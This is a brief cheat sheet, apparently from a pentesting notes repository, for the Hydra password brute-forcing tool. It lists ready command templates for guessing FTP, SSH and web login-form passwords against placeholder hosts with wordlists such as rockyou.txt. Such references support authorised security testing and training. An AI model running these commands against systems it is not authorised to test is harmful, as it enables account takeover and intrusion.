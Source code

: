 ### Hydra

---

```py
Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.
```

#### Formats : 

---

Hydra
```py
hydra -l user -P passlist.txt ftp://192.168.0.1
```

SSH
```py
hydra -l <username> -P <full path to pass> <ip> -t 4 ssh
```

```py
hydra -l ckc -P /usr/share/wordlitsts/rockyou.txt ssh://<ip-addr>
```

Post web form
```py
hydra -l <username> -P <password list> <ip> http-post-form "/<login url>:username=^USER^&password=^PASS^:F=incorrect" -V
```

